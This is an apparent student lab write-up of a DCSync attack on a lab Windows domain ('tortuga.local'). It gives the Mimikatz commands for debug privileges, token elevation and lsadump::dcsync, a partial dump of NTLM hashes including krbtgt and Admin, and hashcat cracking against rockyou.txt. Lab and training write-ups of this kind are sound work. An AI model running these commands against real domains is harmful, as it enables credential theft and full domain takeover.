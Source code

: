 # DCsync Password Cracking
>> Performing a DC (Domain Control) sync pentest.

## Performing the DCSync.
- Using the administrator password obtained from the previous lab, I was able to gain access into the tortuga DC VM and load the Mimikatz trunk onto its desktop.
- Next, using the x64 version of mimikatz, I launched powershell from the file menu.
- With PowerShell open, I then launched Mimikatz using the command “./mimikatz.exe”. 
> -  NOTE: I used PowerShell instead of the default cmd launcher because of the limitations the default
cmd presents- While PowerShell is powerful and flexible

- I then used the mimikatz command “privilege::debug” to get “god tier” (debug) privileges, and then used those privileges to elevate my token using the mimikatz command “token::elevate”.
- Once I had elevated my privilege enough to access the password hashes through the DCSync, I used the command “lsadump::dcsync /domain:tortuga.local /all /csv”. This command dumps all the users within the tortuga.local domain along with their password hashes.
- Here’s the full output received from the previously discussed command:

```console
mimikatz # lsadump::dcsync /domain:tortuga.local /all /csv
[DC]
[DC]
[DC]"	"'tortuga.local' will be the domain 'dc01.tortuga.local' will be the DC server
Exporting domain 'tortuga.local'"	
1105	"U478384 0db3396a227ae978162e28d9f8bf3ff2"	66048
1106	"U724564 0bc2cd56aff62e231df637c9997f5db5"	66048
"… … …
1292"	"…
      "U472136 5437b3d561e5b3c302b8ea8f11aef318"	66048
1293	"U529036 3e202fa49136e93508b79bfca232479d"	66048
1294	"U328628 ad5e3408db1ea42441c755715c0c52a6"	66048
1295	"U879436 136ff21d05e3ad70135dc48884e81357"	66048
1296	"U858483 82fb725d156e9179063796dcc45d062a"	66048
1297	"U532495 3237a4cea1efc18fb4394dd41b7dd95d"	66048
1298	"U104961 2805976fa86da938b8b5209a0e73af75"	66048
1299	"U957087 3dbe233471445dbb58b72b95d80c71e7"	66048
1300	"U556079 bba37cb6350910920f27e495aac2d16c"	66048
1301	"U153711 6ba4fd921fa7ecdcc7ac2fe902b0657e"	66048
1302	"U786240 873333e2f8b3e477e840ffe5e77b2003"	66048
1303	"U348616 d64e61a36e000d77a5a1c98fbfe2ce6a"	66048
1304	"U786462 401511cbba86d51f9cd606b83a07d6d9"	66048
1305	"U594663 0ad8fb266a0e5921ebb56854200c6634"	66050
1309	"U257439 91e243f81613c8d3e7db88281c219a09"	66048
1310	"U478245 2d981fdd1f23a2085b7f331e856ab3a3"	590336
1311	"U951863 61b50ceaaa6fba36e9a2d2a85894044e"	17367552
1312	"U836158 ada363ecd153b172ecb664d8916af28d"	66176
1313	"U289311 018e5053ee63ea9da526bfdb51440022"	2097792
1314	"U697137 0f8389a06623ffeb4f866d2b1ba250d1"	640
1315	"U151654 cf3a5525ee9414229e66279623ed5c58"	640
1316	"U371973 cac3a73c02d89fd62392800815e0f425"	4194944
1306	"U891212 26b944d9d6872c12b41d75c39056c35e"	66048
1308	"U323582 09e0198d7ee73c264eb96bfadaa99d56"	66048
502	  "krbtgt  a3f657d01cd6a1f46a1ac36df545bf3b"	514
1320	"U536554 6f22b98d3db9991032ae6f267c0c2753"	672
1319	"wturner 793243be0762ce949633b1bf8c61de59"	66048
1317	"U787486 cac3a73c02d89fd62392800815e0f425"	672
1002	"DC01$   69fc65112f604d0f3c3c7e50d821c398"	532480
500	  "Admin   39d633e9c3fd963d603f131bf42d7ce8"
```

- Once I had all 214 usernames and password hashes for the tortuga.local domain, I moved the data to my attacker VM (Kali Linux distro). On this VM, I edited the data down to two
separate files; 
> - 1. Hashes only named “hashesonly.hashcat” and 
> - 2. Hashes with usernames"named “hashlist.hashcat. 
- Though I could use either of these files, the main file I used for cracking the passwords was the hashes only version.
- I then moved a copy of the “rockyou.txt” wordlist to the desktop and created a new file of the top-5000 words from the rockyou wordlist. This would simplify the use of flags to limit the word usage within the hashcat program itself.


## Cracking the hashes.
- Once the setup of the files had been completed, I moved on to using hashcat to start cracking the passwords. I started by running the hashesonly.hashcat files against the
rockyou.txt wordlist straight up with no other rules or flags.

```console
┌──(kali㉿kali)-[~/Desktop]
└─$  hashcat  -m 1000 -a 0 -o outfile.txt hashesonly.hashcat rockyou.txt
```

```console
Session..........: hashcat 
Status...........: Exhausted 
Hash.Name........: NTLM 
Hash.Target......: hashesonly.hashcat 
Time.Started.....: Sat Apr 3 13:50:14 2021 (3 secs) 
Time.Estimated...: Sat Apr 3 13:50:17 2021 (0 secs) 
Guess.Base.......: File (rockyou.txt) 
Guess.Queue......: 1/1 (100.00%) 
Speed.#1.........: 3895.5 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8 
Recovered........: 3/213 (1.41%) 
Digests Progress.........: 14344385/14344385 (100.00%) 
Rejected.........: 0/14344385 (0.00%) 
Restore.Point....: 14344385/14344385 (100.00%) 
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> 
$HEX[042a0337c2a156616d6f732103]
```
